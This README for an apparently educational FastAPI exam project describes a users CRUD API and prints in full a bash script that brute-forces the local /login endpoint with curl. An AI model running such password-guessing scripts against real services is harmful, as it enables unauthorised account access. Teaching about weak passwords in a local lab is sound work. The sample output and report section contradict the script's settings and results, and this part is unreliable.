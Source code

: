 <!-- START README -->

# Users CRUD + Controlled Brute-Force (FastAPI)

> **Educational use only.** All tests must be run **only** against this **local** API and with **practice accounts** created for the exercise.

## Requirements
- Python 3.10+
- (Windows) Git Bash or WSL to run `brute.sh`

## Setup
### It is recommended to create a virtual environment:

Windows (PowerShell)

```bash
# In the project folder
py -m venv .venv
.\.venv\Scripts\Activate.ps1
py -m pip install --upgrade pip
py -m pip install -r requirements.txt
```

## Run the API

```bash
py -m uvicorn main:app --reload
```

- Swagger UI: http://127.0.0.1:8000/docs  


> **Note:** The “database” is **in-memory**. If the server reloads (e.g., due to `--reload`), users are cleared and must be created again.

---

## Endpoints

- `POST /users` — create user (receives **plain-text password**)
- `GET /users` — list users (passwords not returned)
- `GET /users/{id}` — get user by id
- `PUT /users/{id}` — update (everything **except** password)
- `DELETE /users/{id}` — delete
- `POST /login` — authenticate (returns only `login successful` or `Invalid credentials`)

### Quick CRUD test (in `/docs`)

**1) POST /users**
```json
{
  "username": "demo",
  "password": "pass123",
  "email": "demo@mail.com",
  "is_active": true
}
```

**2) GET /users** 
    
**3) GET /users/{id} (e.g., {id} = 1)**


**4) PUT /users/{id} (e.g., {id} = 1)**
```json
{
  "email": "new@mail.com",
  "is_active": false
}
```

**5) Username conflict demo**  
Create user `admin`, then:
```json
{ "username": "admin" }
```
on `PUT /users/1` → should respond `username ya existe`.

**6) POST /login**
```json
{
  "username": "demo",
  "password": "pass123"
}
```

If your FastAPI path is defined with `user_id` (as in `/users/{user_id}`), feel free to replace `{id}` with `{user_id}` in the text so it matches your code exactly.


---

## Controlled brute-force (bash)

File: **`brute.sh`** (included). Run in **Git Bash** while the API is running:

```bash
./brute.sh
```
### Controlled brute-force script (what this does)

The script below performs a **controlled** brute-force test **against your own local API**.  
It iterates over a small **charset**, sends a POST to `/login` for each guess, and **stops on the first success**.  
You can safely tweak:
- `API` → URL of your local server (change port if needed)
- `USER` → the username to test (e.g., `demo`, `admin`, `leo`)
- `CHARS` → the candidate characters you want to try (e.g., letters, numbers)
- `MAXLEN` → the maximum password length to try
- `PAUSE_EVERY` and `PAUSE_TIME` → control how often to pause to avoid overloading the API

```bash
# brute.sh — controlled brute-force demo
# How it works:
# 1) Reads candidate passwords from the given charset.
# 2) For each candidate, sends POST /login to your local API.
# 3) If the response contains "login successful", it prints the finding and exits.
# Safety:
# - Small, fixed delay between attempts (sleep 0.2) to avoid overwhelming the API.
# - Intended ONLY for your local practice API and accounts created for this exercise.
# You can change:
# - API:  if your server runs on a different host/port.
# - USER: which username to test (demo/admin/leo/...).
# - CHARS: the character set to use for password combinations (letters, digits).
# - MAXLEN: the maximum password length to try (1–3).

#!/usr/bin/env bash
API="http://127.0.0.1:8000/login"
USER="leo"   # change to 'demo' or 'admin' if you want

# Character set (letters + digits)
CHARS=(a b c d e f g h i j k l m n o p q r s t u v w x y z 0 1 2 3 4 5 6 7 8 9)
MAXLEN=3
DELAY=0
PAUSE_EVERY=400
PAUSE_TIME=0.15

attempts=0
start=$(date +%s)

attempt() {
  pwd="$1"
  attempts=$((attempts+1))

  payload='{"username":"'"$USER"'","password":"'"$pwd"'"}'
  resp=$(curl -s "$API" \
    -H "Content-Type: application/json" \
    --data "$payload")

  echo "[$attempts] '$pwd' -> $resp"

  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "FOUND: password='$pwd' in $attempts attempts, $((end-start))s"
    exit 0
  fi

  # Pausa cada N intentos (controlado pero rápido)
  if (( attempts % PAUSE_EVERY == 0 )); then
    sleep "$PAUSE_TIME"
  fi
}

echo "[*] Brute-force on '$USER' | chars=${CHARS[*]} | maxlen=$MAXLEN"

# len=1
for c1 in "${CHARS[@]}"; do
  attempt "$c1"
done

# len=2
if [ "$MAXLEN" -ge 2 ]; then
  for c1 in "${CHARS[@]}"; do
    for c2 in "${CHARS[@]}"; do
      attempt "$c1$c2"
    done
  done
fi

# len=3
if [ "$MAXLEN" -ge 3 ]; then
  for c1 in "${CHARS[@]}"; do
    for c2 in "${CHARS[@]}"; do
      for c3 in "${CHARS[@]}"; do
        attempt "$c1$c2$c3"
      done
    done
  done
fi

echo "NOT found (up to length $MAXLEN). Attempts: $attempts"
exit 1
```

### What to report (example)
- Target user: `admin`  
- Wordlist size: 12  
- Delay between attempts: 0.2 s  
- **Result**: found `secret` in 6 attempts, ~2 s  
- Conclusion: weak/common passwords are cracked very quickly.

---

### Sample run (console output)

```bash
$ ./brute.sh
[1] Probando 'pass123' -> {"message":"Invalid credentials"}
[2] Probando '123456'  -> {"message":"Invalid credentials"}
[3] Probando 'admin'   -> {"message":"Invalid credentials"}
[4] Probando 'admin123'-> {"message":"Invalid credentials"}
[5] Probando 'demo'    -> {"message":"Invalid credentials"}
[6] Probando 'secret'  -> {"message":"Invalid credentials"}
[7] Probando 'qwerty'  -> {"message":"Invalid credentials"}
[8] Probando 'password'-> {"message":"Invalid credentials"}
[9] Probando 'adios'   -> {"message":"login successful"}
ENCONTRADA: password='adios' en 9 intentos, 2s
```
---
## Project structure
```
first-term-exam/
├─ main.py           # FastAPI (CRUD + login), in-memory "DB"
├─ brute.sh          # Bash brute-force script (controlled, uses curl)
├─ requirements.txt  # Dependencies
└─ README.md
```

### .gitignore
```gitignore
.venv/
__pycache__/
*.pyc
*.log
.DS_Store
Thumbs.db
```

<!-- END README -->
